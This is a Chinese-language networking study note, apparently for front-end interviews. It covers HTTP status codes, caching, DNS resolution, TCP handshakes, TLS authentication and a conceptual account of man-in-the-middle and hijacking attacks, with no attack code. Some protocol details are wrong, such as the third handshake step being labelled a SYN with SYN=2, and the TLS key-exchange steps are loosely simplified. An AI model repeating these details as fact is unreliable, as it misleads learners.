


# 网络相关问题

- [http 状态码和使用场景](#http状态码和使用场景)
- [页面加载生成过程](#页面加载生成过程)
- [http 请求方式](#http请求方式)
- [网络协议与 7 层结构](#网络协议与7层结构)
- [强制缓存和协商缓存](#强制缓存和协商缓存)
- [xss 和 csrf](#xss和csrf)
- [避免CDN为PC端缓存移动端页面](#避免CDN为PC端缓存移动端页面)
- [键盘输入过程](#键盘输入过程)
- [CDN加速原理](#CDN加速原理)
- [CSP内容安全策略](#CSP内容安全策略)
- [网络安全综述](#网络安全综述)

---

### http 状态码和使用场景

1. 参考链接：

   [HTTP 状态码（HTTP Status Code）及常用场景](https://www.cnblogs.com/QQParadise/p/5019860.html)

   [HTTP 状态码](https://www.runoob.com/http/http-status-codes.html)

   [「2021」高频前端面试题汇总之计算机网络篇](https://juejin.cn/post/6908327746473033741)

2. 详解：

```txt
常见状态码：
---------------信息，服务器收到请求，需要请求者继续执行操作------------------------
100	Continue	继续。客户端应继续其请求
101	Switching Protocols	切换协议。服务器根据客户端的请求切换协议。只能切换到更高级的协议，例如，切换到HTTP的新版本协议

---------------成功，操作被成功接收并处理------------------------
200	OK	请求成功。一般用于GET与POST请求
201	Created	已创建。成功请求并创建了新的资源
202	Accepted	已接受。已经接受请求，但未处理完成
203	Non-Authoritative Information	非授权信息。请求成功。但返回的meta信息不在原始的服务器，而是一个副本
204	No Content	无内容。服务器成功处理，但未返回内容。在未更新网页的情况下，可确保浏览器继续显示当前文档
205	Reset Content	重置内容。服务器处理成功，用户终端（例如：浏览器）应重置文档视图。可通过此返回码清除浏览器的表单域
206	Partial Content	部分内容。服务器成功处理了部分GET请求

---------------重定向，需要进一步的操作以完成请求------------------------
300	Multiple Choices	多种选择。请求的资源可包括多个位置，相应可返回一个资源特征与地址的列表用于用户终端（例如：浏览器）选择

301	Moved Permanently	永久移动。请求的资源已被永久的移动到新URI，返回信息会包括新的URI，浏览器会自动定向到新URI。今后任何新的请求都应使用新的URI代替
  使用场景：
    当我们想换个域名，旧的域名不再使用时，用户访问旧域名时用301就重定向到新的域名。其实也是告诉搜索引擎收录的域名需要对新的域名进行收录。
    在搜索引擎的搜索结果中出现了不带www的域名，而带www的域名却没有收录，这个时候可以用301重定向来告诉搜索引擎我们目标的域名是哪一个。

302	Found	临时移动。与301类似。但资源只是临时被移动。客户端应继续使用原有URI
  使用场景：
    当我们在做活动时，登录到首页自动重定向，进入活动页面。
    未登陆的用户访问用户中心重定向到登录页面。
    访问404页面重新定向到首页。

303	See Other	查看其它地址。与301类似。该状态码表示由于请求对应的资源存在着另一个 URI，应使用 GET 方法定向获取请求的资源。

304	Not Modified	未修改。浏览器缓存相关。所请求的资源未修改，服务器返回此状态码时，不会返回任何资源。客户端通常会缓存访问过的资源，通过提供一个头信息指出客户端希望只返回在指定日期之后修改的资源
  带条件的请求（Http 条件请求）：使用 Get方法 请求，请求报文中包含（if-match、if-none-match、if-modified-since、if-unmodified-since、if-range）中任意首部。

305	Use Proxy	使用代理。所请求的资源必须通过代理访问
306	Unused	已经被废弃的HTTP状态码
307	Temporary Redirect	临时重定向。与302类似。307 会遵守浏览器标准，不会从 POST 变成 GET。

---------------客户端错误，请求包含语法错误或无法完成请求------------------------
400	Bad Request	客户端请求的语法错误，服务器无法理解

401	Unauthorized	请求要求用户的身份认证
  401.1 - 登录失败。
  401.2 - 服务器配置导致登录失败。
  401.3 - 由于 ACL 对资源的限制而未获得授权。
  401.4 - 筛选器授权失败。
  401.5 - ISAPI/CGI 应用程序授权失败。
  401.7 - 访问被 Web 服务器上的 URL 授权策略拒绝。这个错误代码为 IIS 6.0 所专用。

402	Payment Required	保留，将来使用

403	Forbidden	服务器理解请求客户端的请求，但是拒绝执行此请求
  403.1 - 执行访问被禁止。
  403.2 - 读访问被禁止。
  403.3 - 写访问被禁止。
  403.4 - 要求 SSL。
  403.5 - 要求 SSL 128。
  403.6 - IP 地址被拒绝。
  403.7 - 要求客户端证书。
  403.8 - 站点访问被拒绝。
  403.9 - 用户数过多。
  403.10 - 配置无效。
  403.11 - 密码更改。
  403.12 - 拒绝访问映射表。
  403.13 - 客户端证书被吊销。
  403.14 - 拒绝目录列表。
  403.15 - 超出客户端访问许可。
  403.16 - 客户端证书不受信任或无效。
  403.17 - 客户端证书已过期或尚未生效
  403.18 - 在当前的应用程序池中不能执行所请求的 URL。这个错误代码为 IIS 6.0 所专用。
  403.19 - 不能为这个应用程序池中的客户端执行 CGI。这个错误代码为 IIS 6.0 所专用。
  403.20 - Passport 登录失败。这个错误代码为 IIS 6.0 所专用。

404	Not Found	服务器无法根据客户端的请求找到资源（网页）。通过此代码，网站设计人员可设置"您所请求的资源无法找到"的个性页面
  404.0 -（无） – 没有找到文件或目录。
  404.1 - 无法在所请求的端口上访问 Web 站点。
  404.2 - Web 服务扩展锁定策略阻止本请求。
  404.3 - MIME 映射策略阻止本请求。

405	Method Not Allowed	客户端请求中的方法被禁止
  客户端可以通过 OPTIONS 方法（预检）来查看服务器允许的访问方法：Access-Control-Allow-Methods: GET,HEAD,PUT,PATCH,POST,DELETE

406	Not Acceptable	服务器无法根据客户端请求的内容特性完成请求
407	Proxy Authentication Required	请求要求代理的身份认证，与401类似，但请求者应当使用代理进行授权
408	Request Time-out	服务器等待客户端发送的请求时间过长，超时
409	Conflict	服务器完成客户端的 PUT 请求时可能返回此代码，服务器处理请求时发生了冲突
410	Gone	客户端请求的资源已经不存在。410不同于404，如果资源以前有现在被永久删除了可使用410代码，网站设计人员可通过301代码指定资源的新位置
411	Length Required	服务器无法处理客户端发送的不带Content-Length的请求信息
412	Precondition Failed	客户端请求信息的先决条件错误
413	Request Entity Too Large	由于请求的实体过大，服务器无法处理，因此拒绝请求。为防止客户端的连续请求，服务器可能会关闭连接。如果只是服务器暂时无法处理，则会包含一个Retry-After的响应信息
414	Request-URI Too Large	请求的URI过长（URI通常为网址），服务器无法处理
415	Unsupported Media Type	服务器无法处理请求附带的媒体格式
416	Requested range not satisfiable	客户端请求的范围无效
417	Expectation Failed	服务器无法满足Expect的请求头信息

---------------服务器错误，服务器在处理请求的过程中发生了错误------------------------
500	Internal Server Error	服务器内部错误，无法完成请求
501	Not Implemented	服务器不支持请求的功能，无法完成请求

502	Bad Gateway	作为网关或者代理工作的服务器尝试执行请求时，从远程服务器接收到了一个无效的响应
  502.1 - CGI （通用网关接口）应用程序超时。
  502.2 - CGI （通用网关接口）应用程序出错。

503	Service Unavailable	由于超载或系统维护，服务器暂时的无法处理客户端的请求。延时的长度可包含在服务器的Retry-After头信息中
504	Gateway Time-out	充当网关或代理的服务器，未及时从远端服务器获取请求
505	HTTP Version not supported	服务器不支持请求的HTTP协议的版本，无法完成处理
```

* 同样是重定向，307，303，302的区别？

  302是http1.0的协议状态码，在http1.1版本的时候为了细化302状态码⼜出来了两个303和307。 
  
  303明确表示客户端应当采⽤get⽅法获取资源，他会把POST请求变为GET请求进⾏重定向。
  
  307会遵照浏览器标准，不会从post变为get。

* HTTP状态码304是多好还是少好？

  服务器为了提高网站访问速度，对之前访问的部分页面指定缓存机制，当客户端在此对这些页面进行请求，服务器会根据缓存内容判断页面与之前是否相同，若相同便直接返回304，此时客户端调用缓存内容，不必进行二次下载。

  状态码304不应该认为是一种错误，而是对客户端有缓存情况下服务端的一种响应。

  搜索引擎蜘蛛会更加青睐内容源更新频繁的网站。通过特定时间内对网站抓取返回的状态码来调节对该网站的抓取频次。若网站在一定时间内一直处于304的状态，那么蜘蛛可能会降低对网站的抓取次数。相反，若网站变化的频率非常之快，每次抓取都能获取新内容，那么日积月累，的回访率也会提高。

  * 产生较多304状态码的原因：

    * 页面更新周期长或不更新
    * 纯静态页面或强制生成静态html

  * 304状态码出现过多会造成以下问题：

    * 网站快照停止；
    * 收录减少；
    * 权重下降。

### 页面加载生成过程

1. 参考链接：

  [网页生成过程及重排和重绘](https://blog.csdn.net/qq_41635167/article/details/83932920)

  [web 页面加载、解析、渲染过程](https://www.cnblogs.com/CandyManPing/p/6635008.html)

  [从输入 URL 到页面加载的全过程](https://www.cnblogs.com/xiaohuochai/p/9193083.html)

  [详解 DNS 域名解析全过程](https://blog.csdn.net/m0_37812513/article/details/78775629)

  [一次完整的 HTTP 请求所经历的 7 个步骤](https://www.cnblogs.com/jiu0821/p/5641600.html)

  [HTTPS 的建立过程（SSL 建立安全会话的过程）](https://blog.csdn.net/u011779724/article/details/80776776)

  [你连 HTTPS 原理都不懂，还讲“中间人攻击”？](https://mp.weixin.qq.com/s/sHtZhRTNOihmxap5sDD6xQ)

  [SSL认证：单向认证与双向认证](https://blog.csdn.net/qq_31825569/article/details/79956967)

  [SSL3、TLS1.0、TSL1.1、TLS1.2、TLS 1.3协议版本间的差异](https://blog.csdn.net/wotrusca/article/details/109839209)

  [SSL与TLS的区别以及介绍](https://www.cnblogs.com/chaiyu2002/p/9551622.html)

  [1.6W字！梳理50道经典计算机网络面试题（收藏版）](https://juejin.cn/post/6988794419910541348)

  [TCP 为什么是三次握手，而不是两次或四次？](https://www.zhihu.com/question/24853633)

  [为什么是四次挥手,不是三次挥手](https://blog.csdn.net/brook_/article/details/81090175)

  [「2021」高频前端面试题汇总之计算机网络篇](https://juejin.cn/post/6908327746473033741)

2. 详解：

  浏览器：

  - 输入网址并确认

  - 解析URL，检查协议、域名是否合法，是否存在非法字符

  - 检查浏览器缓存,见[强制缓存与协商缓存](#强制缓存与协商缓存)
    - 存在缓存，检查是否过期(expires(具体时间)和 cache-control(max-age 秒))
      - 未过期，直接返回页面
      - 过期，向服务器发起请求(请求过程见下方)验证资源是否未修改(附带 ETag 和 if-last-modify)
        - 未修改，返回 304
        - 修改，最新资源和返回 200
    - 不存在缓存，向服务器发起请求(请求过程见下方)

  - 域名解析(通过 DNS 找 IP)
    - 检查浏览器 DNS 缓存(TTL)，存在则返回上一次解析的 IP
    - 不存在则检查操作系统缓存(本地 hosts 文件)是否有相应域名配置
    - 没对应再向 LDNS(本地域名服务器)(城市中距离较近的域名服务器)发起查询
    - 不存在则向根域名.查询，根域名服务器返回 LDNS 一个所查询域的主域名服务器（gTLD Server，国际顶尖域名服务器，如.com .cn .org 等）地址
    - LDNS 再发送请求给上一步返回的 gTLD
    - 接受请求的 gTLD 查找并返回这个域名对应的 Name Server 的地址，这个 Name Server 就是网站注册的域名服务器
    - Name Server 根据映射关系表找到目标 ip，返回给 LDNS
    - LDNS 缓存这个域名和对应的 ip
    - LDNS 把解析的结果返回给用户，用户根据 TTL 值缓存到本地系统缓存中，域名解析过程至此结束

  - 获取MAC地址
    - 应用层下发数据给传输层，TCP 协议会指定源端口号和目的端口号，然后下发给网络层
    - 网络层会将本机地址作为源地址，获取的 IP 地址作为目的地址，然后将下发给数据链路层
    - 数据链路层的发送需要加入通信双方的 MAC 地址，本机的 MAC 地址作为源 MAC 地址，目的 MAC 地址需要分情况处理，通过将 IP 地址与本机的子网掩码相与，可以判断是否与请求主机在同一个子网里
      - 如果在同一个子网里，可以使用 APR 协议获取到目的主机的 MAC 地址
      - 如果不在一个子网里，那么请求应该转发给网关，由它代为转发，此时同样可以通过 ARP 协议来获取网关的 MAC 地址，此时目的主机的 MAC 地址应该为网关的地址

  - 建立 TCP 连接(三次握手)(http请求过程)

    ```txt
    1.SYN包，SYN=1,Seq=X,进入 SYN_SENT 状态
    client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
    2.SYN-ACK包,SYN=1,ACK=X+1,Seq=Y,进入 SYN_RECV 状态
    client<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<server
    3.SYN包，SYN=2,ACK=Y+1
    client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
    双方进入 ESTABLISHED 状态
    ```

    * TCP 为什么是三次握手，而不是两次或四次？

      * 本质
      
        信道不可靠, 但是通信双发需要就某个问题达成一致. 而要解决这个问题, 无论你在消息中包含什么信息, 三次通信是理论上的最小值

      * 为什么不是2次？

        谢希仁版《计算机网络》中的例子是这样的，已失效的连接请求报文段”的产生在这样一种情况下：client发出的第一个连接请求报文段并没有丢失，而是在某个网络结点长时间的滞留了，以致延误到连接释放以后的某个时间才到达server。本来这是一个早已失效的报文段。但server收到此失效的连接请求报文段后，就误认为是client再次发出的一个新的连接请求。于是就向client发出确认报文段，同意建立连接。假设不采用“三次握手”，那么只要server发出确认，新的连接就建立了。由于现在client并没有发出建立连接的请求，因此不会理睬server的确认，也不会向server发送数据。但server却以为新的运输连接已经建立，并一直等待client发来数据。这样，server的很多资源就白白浪费掉了。

      * 为什么不是4次？

        不是建立可靠连接的最小值，资源浪费

      如果信道是可靠的, 即无论什么时候发出消息, 对方一定能收到, 或者你不关心是否要保证对方收到你的消息, 那就能像UDP那样直接发送消息就可以了

  - http 请求

    ```txt
    请求报文(查看request headers)
    POST /search HTTP/1.1
    Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint,
    application/msword, application/x-silverlight, application/x-shockwave-flash, */*
    Referer: <a href="http://www.google.cn/">http://www.google.cn/</a>
    Accept-Language: zh-cn
    Accept-Encoding: gzip, deflate
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; TheWorld)
    Host: <a href="http://www.google.cn">www.google.cn</a>
    Connection: Keep-Alive
    Cookie: PREF=ID=80a06da87be9ae3c:U=f7167333e2c3b714:NW=1:TM=1261551909:LM=1261551917:S=ybYcq2wpfefs4V9g;
    NID=31=ojj8d-IygaEtSxLgaJmqSjVhCspkviJrB6omjamNrSm8lZhKy_yMfO2M4QMRKcH1g0iQv9u-2hfBW7bUFwVh7pGaRUb0RnHcJU37y-
    FxlRugatx63JLv7CWMD6UB_O_r

    hl=zh-CN&source=hp&q=domety
    ```

    - 常见请求头

      * Accept:浏览器能够处理的内容类型
      * Accept-Charset:浏览器能够显示的字符集
      * Accept-Encoding：浏览器能够处理的压缩编码
      * Accept-Language：浏览器当前设置的语言
      * Connection：浏览器与服务器之间连接的类型
      * Cookie：当前页面设置的任何Cookie
      * Host：发出请求的页面所在的域
      * Referer：发出请求的页面的URL
      * User-Agent：浏览器的用户代理字符串

    - 常见响应头

      * Date：表示消息发送的时间，时间的描述格式由rfc822定义
      * server:服务器名称
      * Connection：浏览器与服务器之间连接的类型
      * Cache-Control：控制HTTP缓存
      * content-type:表示后面的文档属于什么MIME类型
        * application/x-www-form-urlencoded：浏览器的原生 form 表单，如果不设置 enctype 属性，那么最终就会以 application/x-www-form-urlencoded 方式提交数据。该种方式提交的数据放在 body 里面，数据按照 key1=val1&key2=val2 的方式进行编码，key 和 val 都进行了 URL转码。
        * multipart/form-data：该种方式也是一个常见的 POST 提交方式，通常表单上传文件时使用该种方式。
        * application/json：服务器消息主体是序列化后的 JSON 字符串。
        * text/xml：该种方式主要用来提交 XML 格式的数据。

  - https 请求过程(TLS):

    TLS/SSL全称安全传输层协议（Transport Layer Security）, 是介于TCP和HTTP之间的一层安全协议，不影响原有的TCP协议和HTTP协议，所以使用HTTPS基本上不需要对HTTP页面进行太多的改造。

    TLS/SSL=非对称加密(身份验证，秘钥协商)+对称加密(信息加密)+散列函数hash(完整校验)。这三类算法的作用如下：

      1. 非对称加密实现身份认证和秘钥协商

        常见的非对称加密算法有RSA、ECC、DH等。秘钥成对出现，一般称为公钥（公开）和私钥（保密）。公钥加密的信息只有私钥可以解开，私钥加密的信息只能公钥解开，因此掌握公钥的不同客户端之间不能相互解密信息，只能和服务器进行加密通信，服务器可以实现一对多的的通信，客户端也可以用来验证掌握私钥的服务器的身份。

        特点： 非对称加密的特点就是信息一对多，服务器只需要维持一个私钥就可以和多个客户端进行通信，但服务器发出的信息能够被所有的客户端解密，且该算法的计算复杂，加密的速度慢。

      2. 对称加密算法采用协商的秘钥对数据加密

        常见的对称加密算法有AES-CBC、DES、3DES、AES-GCM等。相同的秘钥可以用于信息的加密和解密。掌握秘钥才能获取信息，防止信息窃听，其通讯方式是一对一。
        
        特点： 对称加密的优势就是信息传输使用一对一，需要共享相同的密码，密码的安全是保证信息安全的基础，服务器和N个客户端通信，需要维持N个密码记录且不能修改密码。

      3. 基于散列函数验证信息的完整性

      常见的散列函数有MD5、SHA1、SHA256。该函数的特点是单向不可逆，对输入数据非常敏感，输出的长度固定，任何数据的修改都会改变散列函数的结果，可以用于防止信息篡改并验证数据的完整性。
      
      特点： 在信息传输过程中，散列函数不能三都实现信息防篡改，由于传输是明文传输，中间人可以修改信息后重新计算信息的摘要，所以需要对传输的信息和信息摘要进行加密。

    * 单向认证

      1. 客户端向服务端发送SSL协议版本号、加密算法种类、随机数等信息
      2. 服务端给客户端返回SSL协议版本号、加密算法种类、随机数等信息，同时也返回服务器端的证书，即公钥证书
      3. 客户端使用服务端返回的信息验证服务器的合法性，验证通过后，则继续进行通信，否则终止通信，验证内容包括:
        * 证书是否过期
        * 发行服务器证书的CA是否可靠
        * 返回的公钥是否能正确解开返回证书中的数字签名
        * 服务器证书上的域名是否和服务器的实际域名相匹配
      4. 客户端向服务器发送自己所能支持的对称加密方案，供服务器进行选择
      5. 服务器在客户端提供的加密方案中选择加密程度最高的加密方式
      6. 服务器将选择好的加密方式通过明文方式返回给客户端
      7. 客户端接收到服务器返回的加密方案后，使用该加密方案生成产生随机码，用作通信过程中对称加密的密钥，使用服务端返回的公钥进行加密，将加密后的随机码发送至服务器
      8. 服务器收到客户端返回的加密信息后 ，使用自己的私钥进行解密，获取对称加密密钥。在接下来的会话中，服务器和客户端将会使用该密码进行对称加密，保证通信过程中的信息安全。

      ```txt
      1.SSL协议版本号、加密算法种类、随机数等信息
      client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
      2.加密算法(公钥证书+随机数+数字签名(私钥加密))
      client<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<server
      3.验证，支持的对称加密方案
      client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
      4.选择加密程度最高的加密方式，明文方式返回
      client<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<server
      5.公钥加密(返回的加密方案(随机数)--对称秘钥)
      client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
      6.私钥解密获取对称秘钥，接下来使用此秘钥通信
      Diffie-Hellman密钥交换算法
      有两个全局公开的参数，一个素数q和一个整数a,a是q的一个原根(g^i mod p ≠ g^j mod p).
      用户A选择一个作为私有密钥的随机数XA(XA<q)，并计算公开密钥YA=a^XA mod q
      用户B选择一个私有的随机数XB<q，并计算公开密钥YB=a^XB mod q
      用户A产生共享秘密密钥的计算方式是K = (YB)^XA mod q
      用户B产生共享秘密密钥的计算是K = (YA)^XB mod q
      5.秘钥交换后得出对称秘钥，对内容加密后传输
      ```

    * 双向认证

      1. 客户端向服务器发送连接请求（SSL协议版本号、加密算法种类、随机数等信息）
      2. 服务器给客户端返回服务器端的证书，即公钥证书，同时也返回证书相关信息（SSL协议版本号、加密算法种类、随机数等信息）
      3. 客户端使用服务端返回的信息验证服务器的合法性（首先检查服务器发送过来的证书是否是由自己信赖的CA中心所签发的，再比较证书里的消息，例如域名和公钥，与服务器刚刚发送的相关消息是否一致，如果是一致的，客户端认可这个服务端的合法身份），验证通过后，则继续进行通信，否则终止通信，具体验证内容包括:
        * 证书是否过期
        * 发行服务器证书的CA是否可靠
        * 返回的公钥是否能正确解开返回证书中的数字签名
        * 服务器证书上的域名是否和服务器的实际域名相匹配
      4. 服务端要求客户端发送客户端的证书，客户端会将自己的证书发送至服务端
      5. 验证客户端的证书，通过验证后，会获得客户端的公钥
      6. 客户端向服务器发送自己所能支持的对称加密方案，供服务器端进行选择
      7. 服务器端在客户端提供的加密方案中选择加密程度最高的加密方式
      8. 将加密方式通过使用之前获取到的公钥（客户的公钥）进行加密，返回给客户端
      9. 客户端收到服务端返回的加密方案密文后，使用自己的私钥进行解密，获取具体加密方式，而后获取该加密方式的随机码，用作加密过程中的密钥，使用之前从服务端证书中获取到的公钥进行加密后，发送给服务端
      10. 服务端收到客户端发送的消息后，使用自己的私钥进行解密，获取对称加密的密钥，在接下来的会话中，服务器和客户端将会使用该密码进行对称加密，保证通信过程中信息的安全

    * 与单向认证区别：

      1. 客户端验证服务器证书后，也需把自己的证书发给服务器验证，因此双方均需要部署自己的SSL证书
      2. 服务器将选择好的加密方式后，不再以明文方式返回，而是通过客户端公钥加密返回
      3. 单向认证适用一般网站，双向认证适用需要双方身份验证的企业应用对接

    * TLS各版本区别

      SSL3(1995)->TLS1.0(1999)->TSL1.1(2006)->TLS1.2(2008)->TLS 1.3(2018)

      主要是加密手段的升级。

      * SSL3(1995)->TLS1.0(1999)，PRF以HMAC-MD5和HMAC-SHA的结合(XOR)实现
      * TLS1.0(1999)->TSL1.1(2006)，弥补了CBC加密显式Ⅳ可预测的弱点
      * TSL1.1(2006)->TLS1.2(2008)，添加对HMAC-SHA256密码套件的支持(取代MD5和SHA1)，删除IDEA和DES密码套件
      * TLS1.2(2008)->TLS 1.3(2018)，引入了新的密钥协商机制 — PSK，支持0-RTT数据传输，废弃了3DES、RC4、AES-CBC等加密组件，废弃了SHA1、MD5等哈希算法

      [SSL3、TLS1.0、TSL1.1、TLS1.2、TLS 1.3协议版本间的差异](https://blog.csdn.net/wotrusca/article/details/109839209)

      [SSL与TLS的区别以及介绍](https://www.cnblogs.com/chaiyu2002/p/9551622.html)

    - 为什么数据传输是用对称加密？

      - 非对称加密的加解密效率是非常低，大量的交互无法接受低效率

      - 服务端保存了私钥，公钥公知，所以一对公私钥只能实现单向的加解密

    - 为什么需要 CA 认证机构颁发证书？

      - HTTP 协议被认为不安全是因为传输过程容易被监听者勾线监听、伪造服务器，而 HTTPS 协议主要解决的便是网络传输的安全性问题。

      - 假设不存在认证机构，任何人都可以制作证书，这带来的安全风险便是经典的“中间人攻击”问题。

      - 中间人攻击：中间人分别和客户、正规网站通过 https 连接，因取得对称秘钥，可轻易窃取信息

      1. 本地请求被劫持（如 DNS 劫持、HTTP劫持），所有请求均发送到中间人的服务器

        * DNS劫持: (输⼊京东被强制跳转到淘宝这就属于dns劫持)

          DNS强制解析: 通过修改运营商的本地DNS记录，来引导⽤户流量到缓存服务器

          302跳转的⽅式: 通过监控⽹络出⼝的流量，分析判断哪些内容是可以进⾏劫持处理的,再对劫持的内存发起302跳转的回复，引导⽤户获取内容

        * HTTP劫持: (访问⾕歌但是⼀直有贪玩蓝⽉的⼴告),由于http明⽂传输,运营商会修改你的http响应内容(即加⼴告)

        最有效的办法就是全站HTTPS，将HTTP加密，这使得运营商⽆法获取明⽂，就⽆法劫持你的响应内容。

      2. 中间人服务器返回中间人自己的证书

      3. 客户端创建随机数，通过中间人证书的公钥对随机数加密后传送给中间人，然后凭随机数构造对称加密对传输内容进行加密传输

      4. 中间人因为拥有客户端的随机数，可以通过对称加密算法进行内容解密

      5. 中间人以客户端的请求内容再向正规网站发起请求

      6. 因为中间人与服务器的通信过程是合法的，正规网站通过建立的安全通道返回加密后的数据

      7. 中间人凭借与正规网站建立的对称加密算法对内容进行解密

      8. 中间人通过与客户端建立的对称加密算法对正规内容返回的数据进行加密传输

      9. 客户端通过与中间人建立的对称加密算法对返回结果数据进行解密

    - 浏览器是如何确保 CA 证书的合法性？

      1. 证书包含信息

        - 颁发机构信息
        - 公钥
        - 公司信息
        - 域名
        - 有效期
        - 指纹

      2. 证书的合法性依据

        权威机构需要对其颁发的证书进行信用背书，不同等级的权威机构对审核的要求也不一样，于是证书也分为免费的、便宜的和贵的。

      3. 浏览器验证证书的合法性

        1. 验证域名、有效期等信息是否正确

        2. 判断证书来源是否合法。每份签发证书都可以根据验证链查找到对应的根证书，操作系统、浏览器会在本地存储权威机构的根证书，利用本地根证书可以对对应机构签发证书完成来源验证

        3. 判断证书是否被篡改。需要与 CA 服务器进行校验

        4. 判断证书是否已吊销，通过 CRL（Certificate Revocation List 证书注销列表）和 OCSP（Online Certificate Status Protocol 在线证书状态协议）实现，其中 OCSP 可用于第 3 步中以减少与 CA 服务器的交互，提高验证效率

        5. 既然证书是公开的如何避免这种证书冒用的情况？

            非加密对称中，中间人可以得到证书，但私钥是无法获取，一份公钥是不可能推算出其对应的私钥，中间人即使拿到证书也无法伪装成合法服务端，因为无法对客户端传入的加密数据进行解密。

      4. 只有认证机构可以生成证书吗？

        如果需要浏览器不提示安全风险，那只能使用认证机构签发的证书。但浏览器通常只是提示安全风险，并不限制网站不能访问，所以从技术上谁都可以生成证书，只要有证书就可以完成网站的 HTTPS 传输。

      5. 本地随机数被窃取怎么办？

        证书验证是采用非对称加密实现，但是传输过程是采用对称加密，而其中对称加密算法中重要的随机数是由本地生成并且存储于本地的，HTTPS 如何保证随机数不会被窃取？

        其实 HTTPS 并不包含对随机数的安全保证，HTTPS 保证的只是传输过程安全，而随机数存储于本地，本地的安全属于另一安全范畴，应对的措施有安装杀毒软件、反木马、浏览器升级修复漏洞等。

      6. 用了 HTTPS 会被抓包吗？

        抓包后只能看到加密后数据，但用户与非机构证书网站连接，且主动授权连接，会有中间人攻击的可能

  - websocket

    websocket 是全双工通信,信息能够同时双向传送。通信方式还有单工(单向),半双工(双向不同时)

    ```txt
    1.发送连接请求
    client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
    2.返回连接应答
    client<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<server
    3.连接就绪
    client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
    ```

  - 服务器处理请求，响应 HTML

    ```txt
    响应报文
    HTTP/1.1 200 OK
    Date: Sat, 31 Dec 2005 23:59:59 GMT
    Content-Type: text/html;charset=ISO-8859-1
    Content-Length: 122

    ＜html＞
    ＜head＞
    ＜title＞Wrox Homepage＜/title＞
    ＜/head＞
    ＜body＞
    ＜!-- body goes here --＞
    ＜/body＞
    ＜/html＞
    ```

  - 浏览器解析 HTML 页面

    - 解析 html：HTML 代码转化成 DOM
    - 页面加载时遇到 CSS/JS/图片等资源会发送请求获取
    - 解析 css/js：CSS 代码转化成 CSSOM（CSS Object Model）、js 处理后产生一棵节点带 CSS Style、会响应自定义事件的 Styled DOM 树
    - 构建 render 树：结合 DOM 和 CSSOM，生成一棵渲染树（包含每个节点的视觉信息）
    - 渲染排列：生成布局（layout），即将所有渲染树的所有节点进行平面合成，主要影响性能的地方
    - 渲染绘制：将布局绘制（paint）在屏幕上，主要影响性能的地方

    重排：DOM 结构发生变化（js 操作：事件、增减移动元素）

    重绘：DOM、CSS 发生变化（js 操作：事件、增减移动元素、元素样式变化）

  - 关闭 TCP 连接(四次挥手)

    ```txt
    1.FIN包,FIN=1,ACK=Z,Seq=X,进入 FIN_WAIT_1 状态
    client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
    2.ACK包,ACK=X+1,Seq=Y,服务器进入 CLOSE_WAIT 状态，浏览器端进入 FIN_WAIT_2 状态
    client<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<server
    3.FIN包,FIN=1,ACK=X+1,Seq=Y,浏览器段进入 LAST_ACK 状态
    client<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<<server
    4.ACK包,ACK=Y+1,Seq=X+1,浏览器状态变成 TIME_WAIT
    client>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>server
    服务器、浏览器关闭TCP连接
    ```

